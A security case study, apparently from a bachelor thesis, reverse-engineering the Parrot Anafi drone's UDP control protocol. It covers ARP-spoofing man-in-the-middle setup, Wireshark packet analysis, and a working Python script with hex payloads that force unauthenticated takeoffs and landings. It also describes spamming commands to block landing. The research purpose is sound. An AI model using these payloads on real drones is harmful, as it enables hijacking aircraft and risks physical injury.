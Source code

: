 # Parrot Anafi Drone Reverse Engineering

In this example, we demonstrate how we reverse-engineered the communication between the Parrot Anafi consumer drone and its controller, which connect via Wi-Fi. The Parrot Anafi hosts its own Wi-Fi network, allowing either the controller or a phone running the Freeflight app to connect. Our goal was to understand the signals sent to the Anafi for initiating takeoff and landing sequences.

## Test Setup

Start by connecting your PC to the Parrot Anafi’s Wi-Fi network. Next, set up an ARP spoofing attack to place your PC in a man-in-the-middle position between the drone and its controller. This can be accomplished using tools like Ettercap, allowing your device to capture the data exchanged between the two.

The resulting test setup may look like this:

<figure><img src="../../../../.gitbook/assets/image (75).png" alt=""><figcaption><p>Parrot Anafi test setup</p></figcaption></figure>

## Packet Analysis

Using Wireshark, we can look at the packets, which are send during a landing and a starting sequence (picture shows just a snippet):

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption><p>Example packet</p></figcaption></figure>

We can see that the communication between the drone and the controller is done over UDP. Every UDP packet had some kind of hex string as payload, which was non-ASCII

Next, we looked at the distribution of the packets send, of all packets send during one start and landing of the drone:

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption><p>Distribution of UDP packet type during one start and landing</p></figcaption></figure>

To distinguish which packet is responsible for the start and landing we captured 17 start and landings and saw that the amount of third type (length=53 bytes) of messages went from 2 to 34. Could this be the packet which controls the start/landing? since 17\*2=34

We can filter in Wireshark with `frame.len==53` to filter just for the start/landing packets:

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption><p>Wireshark filter which only shows start and landing packets</p></figcaption></figure>

The payload of the packets had a pretty clear structure: (here an example of a few)

```
04 0b 0b 00 00 00 00 01 00 01 00
04 0b 0c 0b 00 00 00 01 00 03 00
04 0b 0d 0b 00 00 00 01 00 01 00
04 0b 0e 0b 00 00 00 01 00 03 00
04 0b 0f 0b 00 00 00 01 00 01 00
04 0b 10 0b 00 00 00 01 00 03 00
04 0b 11 0b 00 00 00 01 00 01 00
04 0b 12 0b 00 00 00 01 00 03 00
```

After analyzing the protocol more, we could reverse the format of this type packet:

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Structure of start and landing packets</p></figcaption></figure>

## Attack

Let's see if we can send our own packets from our PC to the drone, in order to start and land it, without using the controller. For that we setup a Python script (see below) to send a UDP packet with the payload `040bff0b000000300001000100` to the drone to start it. Note that we set the counter to `FF`, as packets are dropped by the drone if the counter value is less than the current counter. Using `FF` ensures it is always accepted.

```python
import socket

# Define target IP and ports
target_ip = "192.168.42.1"
destination_port = 2233

# Define the payload
payload = bytes.fromhex("040bff0b000000300001000100") #for starts
#payload = bytes.fromhex("040bff0b000000300001000300") #for landings

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)

# Send the payload to the target IP and port
sock.sendto(payload, (target_ip, destination_port))

# Close the socket
sock.close()

print(f"Payload sent to {target_ip}:{destination_port}")
```

And we did it! The drone performed its auto-start maneuver and was hovering above! In order to land the drone again we can send `040bff0b000000300001000300`to the drone. Note that the trigger byte (2nd last byte) was set to `03`.

Notice, one does not need to change the MAC address to get these results. The Anafi processed the packages even though the laptop was not the primary controller at this time.

If we spam either the takeoff or landing command, the following attacks can be exploited:

1. **Possible Attacks**
   1. Prevent starts
      1. The next experiment was to spam the landing command constantly, with the result that the drone was unable to start using the controller. The drone’s rotors were spinning for a second but then the landing command was received and the Anafi stopped the starting process.
   2. Prevent landings
      1. The same result could be achieved with spamming the starting package. If one presses the landing button on the controller or phone the drone started to go down, but as soon as the starting package from the laptop came in the drone stopped the landing and stared to hovering above the ground again. As a result, the phone user was unable to land the drone properly.

## Summary

This case study shows why it is relevant to reverse network protocols when analyzing IoT devices. As an attacker, who has access to the Parrot Anafis WiFi network we can send unauthenticated packets to the drone and control its starts and landings. This can be done by any device, which can connect to WiFi networks.

## Resources

Bachelor Thesis, Jonas Rosenberger (me)

[https://www.parrot.com/en/drones/anafi](https://www.parrot.com/en/drones/anafi)

